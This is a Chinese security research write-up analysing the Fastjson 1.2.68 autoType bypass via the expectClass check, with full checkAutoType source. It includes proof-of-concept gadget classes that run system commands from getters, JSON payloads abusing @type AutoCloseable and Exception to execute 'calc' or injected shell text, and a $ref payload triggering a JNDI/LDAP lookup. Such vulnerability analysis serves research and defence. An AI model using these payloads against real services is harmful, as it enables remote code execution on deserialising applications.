





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：1.2.68; SafeModeoff; Throwable/AutoCloseable custom gadgets, classpath dependent; later Runnable/Readable block change unclear release

代码与实验材料：Extensive checkAutoType source and custom ExecException/Closeable/Runnable/$ref getter demos; naturally present exploitable gadget explicitly still needed

来源证据范围：Y4er image/source clues, chabug links, threedr3am commit; metadata says no original source

- **结论使用边界（1）**：Artificial command-executing classes prove bypass, not universal deployment RCE; parsing overload/JDK must be pinned。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：Missing main heading/fix section; exceptClass typo and source attribution restoration。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

基于期望类的特性

## 分析

`com.alibaba.fastjson.parser.ParserConfig#checkAutoType(String typeName, Class<?> expectClass, int features)`方法有三个参数分别是

1. typeName 被序列化的类名
2. expectClass 期望类
3. features值

具体看下校验过程

首先判断非空和安全模式以及typename长度来决定是否进行autotype。

```java
        if (typeName == null) {
            return null;
        }

        if (autoTypeCheckHandlers != null) {
            for (AutoTypeCheckHandler h : autoTypeCheckHandlers) {
                Class<?> type = h.handler(typeName, expectClass, features);
                if (type != null) {
                    return type;
                }
            }
        }

        final int safeModeMask = Feature.SafeMode.mask;
        boolean safeMode = this.safeMode
                || (features & safeModeMask) != 0
                || (JSON.DEFAULT_PARSER_FEATURE & safeModeMask) != 0;
        if (safeMode) {
            throw new JSONException("safeMode not support autoType : " + typeName);
        }

        if (typeName.length() >= 192 || typeName.length() < 3) {
            throw new JSONException("autoType is not support. " + typeName);
        }
```


然后判断期望类

```java
        final boolean expectClassFlag;
        if (expectClass == null) {
            expectClassFlag = false;
        } else {
            if (expectClass == Object.class
                    || expectClass == Serializable.class
                    || expectClass == Cloneable.class
                    || expectClass == Closeable.class
                    || expectClass == EventListener.class
                    || expectClass == Iterable.class
                    || expectClass == Collection.class
                    ) {
                expectClassFlag = false;
            } else {
                expectClassFlag = true;
            }
        }
```

Object、Serializable、Cloneable、Closeable、EventListener、Iterable、Collection这几个类不能作为expectClass期望类。

然后计算hash进行内部白名单、黑名单匹配

```java
        String className = typeName.replace('$', '.');
        Class<?> clazz;

        final long BASIC = 0xcbf29ce484222325L;
        final long PRIME = 0x100000001b3L;

        final long h1 = (BASIC ^ className.charAt(0)) * PRIME;
        if (h1 == 0xaf64164c86024f1aL) { // [
            throw new JSONException("autoType is not support. " + typeName);
        }

        if ((h1 ^ className.charAt(className.length() - 1)) * PRIME == 0x9198507b5af98f0L) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        final long h3 = (((((BASIC ^ className.charAt(0))
                * PRIME)
                ^ className.charAt(1))
                * PRIME)
                ^ className.charAt(2))
                * PRIME;

        long fullHash = TypeUtils.fnv1a_64(className);
        boolean internalWhite = Arrays.binarySearch(INTERNAL_WHITELIST_HASHCODES,  fullHash) >= 0;

        if (internalDenyHashCodes != null) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                hash ^= className.charAt(i);
                hash *= PRIME;
                if (Arrays.binarySearch(internalDenyHashCodes, hash) >= 0) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        if ((!internalWhite) && (autoTypeSupport || expectClassFlag)) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                hash ^= className.charAt(i);
                hash *= PRIME;
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
                    if (clazz != null) {
                        return clazz;
                    }
                }
                if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                    if (Arrays.binarySearch(acceptHashCodes, fullHash) >= 0) {
                        continue;
                    }

                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }
```


如果`(!internalWhite) && (autoTypeSupport || expectClassFlag)`不在内部白名单中并且开启autoTypeSupport或者有期望类时，进行hash校验白名单acceptHashCodes、黑名单denyHashCodes，在白名单内就加载，在黑名单中就抛出异常。继续

```java
        clazz = TypeUtils.getClassFromMapping(typeName);

        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }

        if (clazz == null) {
            clazz = typeMapping.get(typeName);
        }

        if (internalWhite) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
        }

        if (clazz != null) {
            if (expectClass != null
                    && clazz != java.util.HashMap.class
                    && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }

            return clazz;
        }
```


分别从getClassFromMapping、deserializers.findClass、typeMapping、internalWhite内部白名单中查找类，如果开启了expectClass期望类还要判断类型是否一致。

getClassFromMapping在`com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings`被赋值，添加了一些基本类，后续会当作缓存使用。

[](.resource/Fastjson1.2.68bypassautotype/media/20200616118023.png)


这里先注意下`java.lang.AutoCloseable`类。


deserializers.findClass是在`com.alibaba.fastjson.parser.ParserConfig#initDeserializers`初始化。

[](.resource/Fastjson1.2.68bypassautotype/media/20200616119542.png)


也是存放了一些特殊类用来直接[反序列化](https://www.chabug.org/tags/反序列化)。


typeMapping默认为空需要开发自己赋值，形如

```java
ParserConfig.getGlobalInstance().register("test", Model.class);
```


internalWhite内部白名单就不说了，到这里已经可以返回类了，通过`java.net.Inet6Address`、`java.net.URL`等来判断fastjson也是这个原理。

然后继续走就到了autoTypeSupport的校验。

```java
        if (!autoTypeSupport) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                char c = className.charAt(i);
                hash ^= c;
                hash *= PRIME;

                if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                // white list
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);

                    if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }

                    return clazz;
                }
            }
        }
```

黑白名单匹配。

继续判断使用注解JSONType的类

```java
        boolean jsonType = false;
        InputStream is = null;
        try {
            String resource = typeName.replace('.', '/') + ".class";
            if (defaultClassLoader != null) {
                is = defaultClassLoader.getResourceAsStream(resource);
            } else {
                is = ParserConfig.class.getClassLoader().getResourceAsStream(resource);
            }
            if (is != null) {
                ClassReader classReader = new ClassReader(is, true);
                TypeCollector visitor = new TypeCollector("<clinit>", new Class[0]);
                classReader.accept(visitor);
                jsonType = visitor.hasJsonType();
            }
        } catch (Exception e) {
            // skip
        } finally {
            IOUtils.close(is);
        }
```


继续

```java
        final int mask = Feature.SupportAutoType.mask;
        boolean autoTypeSupport = this.autoTypeSupport
                || (features & mask) != 0
                || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;

        if (autoTypeSupport || jsonType || expectClassFlag) {
            boolean cacheClass = autoTypeSupport || jsonType;
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
        }

        if (clazz != null) {
            if (jsonType) {
                TypeUtils.addMapping(typeName, clazz);
                return clazz;
            }

            if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    || javax.sql.RowSet.class.isAssignableFrom(clazz) //
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            if (expectClass != null) {
                if (expectClass.isAssignableFrom(clazz)) {
                    TypeUtils.addMapping(typeName, clazz);
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }

            JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, propertyNamingStrategy);
            if (beanInfo.creatorConstructor != null && autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
```

如果有注解，则加入mapping缓存并直接返回。如果没有注解判断clazz类是否继承或实现classloader、dataSou[rce](https://www.chabug.org/tags/rce)、RowSet，抛出异常防止jndi注入。

如果expectClass期望类不为空，则需要加载的类是期望类的子类或实现，并直接返回，否则异常。

如果类使用`JSONCreator`注解并且开启autoTypeSupport，抛出异常。

最后就是判断是否开启autoTypeSupport特性，将clazz添加进缓存，并且return clazz。

```java
        if (!autoTypeSupport) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        if (clazz != null) {
            TypeUtils.addMapping(typeName, clazz);
        }
```

可以看到主要有如下种情况可以直接返回class

TypeUtils.mappings mappings缓存1.2.47中就被绕过了一次autotype。而这次绕过是在于`exceptClass`期望类这个功能。

期望类的功能主要是实现/继承了期望类的class能被反序列化出来（并且不受autotype影响），寻找checkAutoType方法的调用，要求exceptClass不为空。


[](.resource/Fastjson1.2.68bypassautotype/media/20200616112778.png)


只有两个类`JavaBeanDeserializer`、`ThrowableDeserializer`中调用了checkAutoType并且exceptClass不为空。

在`com/alibaba/fastjson/parser/ParserConfig.java:826`中对一些基本的类型设置了对应的反序列化实例deserializer

[](.resource/Fastjson1.2.68bypassautotype/media/20200616112730.png)


ThrowableDeserializer是Throwable用来反序列化异常类的，当没有命中之前程序给定的类型时会进入createJavaBeanDeserializer()，其实就是JavaBeanDeserializer。


先看ThrowableDeserializer中

[](.resource/Fastjson1.2.68bypassautotype/media/20200616111164.png)


根据第二个`@type`获取类，并且传入指定期望类进行加载。因此可以反序列化继承Throwable的异常类，借助setter、getter等方法的自动调用，来挖掘gadget。浅蓝师傅给了一个gadget

```java
package org.chabug.fastjson.exploit;

import java.io.IOException;

public class ExecException extends Exception {

    private String domain;

    public ExecException() {
        super();
    }

    public String getDomain() {
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public String getMessage() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            return e.getMessage();
        }

        return super.getMessage();
    }
}
```


提交json触发rce

```java
{
  "@type":"java.lang.Exception",
  "@type": "org.chabug.fastjson.exploit.ExecException",
  "domain": "y4er.com | calc"
}
```


当然很少有开发者把命令执行写道异常类处理中，所以Throwable鸡肋。

再来看JavaBeanDeserializer，在fastjson中对大部分类都指定了特定的deserializer，而AutoCloseable类没有，通过继承/实现AutoCloseable的类可以绕过autotype反序列化。场景如下：

```java
package org.chabug.fastjson.exploit;

import java.io.Closeable;
import java.io.IOException;

public class ExecCloseable implements Closeable {
    private String domain;

    public ExecCloseable() {
    }

    public ExecCloseable(String domain) {
        this.domain = domain;
    }

    public String getDomain() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public void close() throws IOException {

    }
}
```


提交json触发rce

```java
{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecCloseable",
  "domain": "y4er.com | calc"
}
```


fastjson在黑名单中还加上了java.lang.Runnable、java.lang.Readable，这个利用场景拿Runnable举个例子

```java
package org.chabug.fastjson.exploit;

import java.io.IOException;

public class ExecRunnable implements AutoCloseable {
    private EvalRunnable eval;

    public EvalRunnable getEval() {
        return eval;
    }

    public void setEval(EvalRunnable eval) {
        this.eval = eval;
    }

    @Override
    public void close() throws Exception {

    }
}

class EvalRunnable implements Runnable {
    private String cmd;

    public String getCmd() {
        System.out.println("EvalRunnable getCmd() "+cmd);
        try {
            Runtime.getRuntime().exec(new String[]{"cmd","/c",cmd});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return cmd;
    }

    public void setCmd(String cmd) {
        this.cmd = cmd;
    }

    @Override
    public void run() {

    }
}
```


```java
{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecRunnable",
  "eval":{"@type":"org.chabug.fastjson.exploit.EvalRunnable","cmd":"calc"}
}
```

Readable同理。

拓展使用$ref拓展攻击面，使用parse()解析的也能触发任意getter。这个payload来自 [@threedr3am](https://github.com/threedr3am/learnjavabug/commit/ea61297cf7b2125ecae0064d2b8061a9e32db1e6)

```java
package org.chabug.fastjson.exploit;

import com.alibaba.fastjson.JSON;
import org.apache.shiro.jndi.JndiLocator;
import org.apache.shiro.util.Factory;

import javax.naming.NamingException;

public class RefAnyGetterInvoke<T> extends JndiLocator implements Factory<T>, AutoCloseable {
    private String resourceName;

    public RefAnyGetterInvoke() {
    }

    public static void main(String[] args) {
        String json = "{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.chabug.fastjson.exploit.RefAnyGetterInvoke\",\n" +
                "  \"resourceName\": \"ldap://localhost:1389/Calc\",\n" +
                "  \"instance\": {\n" +
                "    \"$ref\": \"$.instance\"\n" +
                "  }\n" +
                "}";
        System.out.println(json);
        JSON.parse(json);   // 默认不会调用getter 使用$ref就可以调用到getInstance()
//        JSON.parseObject(json); // parseObject默认就会调用getter getInstance()
    }

    public T getInstance() {
        System.out.println(getClass().getName() + ".getInstance() invoke.");
        try {
            return (T) this.lookup(this.resourceName);
        } catch (NamingException var3) {
            throw new IllegalStateException("Unable to look up with jndi name '" + this.resourceName + "'.", var3);
        }
    }

    public String getResourceName() {
        System.out.println(getClass().getName() + ".getResourceName() invoke.");
        return this.resourceName;
    }

    public void setResourceName(String resourceName) {
        System.out.println(getClass().getName() + ".setResourceName() invoke.");
        this.resourceName = resourceName;
    }

    @Override
    public void close() throws Exception {

    }
}
```


## gadget

```java
 if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    || javax.sql.RowSet.class.isAssignableFrom(clazz) //
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }
```


因为这几行代码的限制，大部分的JNDI gadget都不能用了，需要找到一条基于AutoCloseable的新gadget。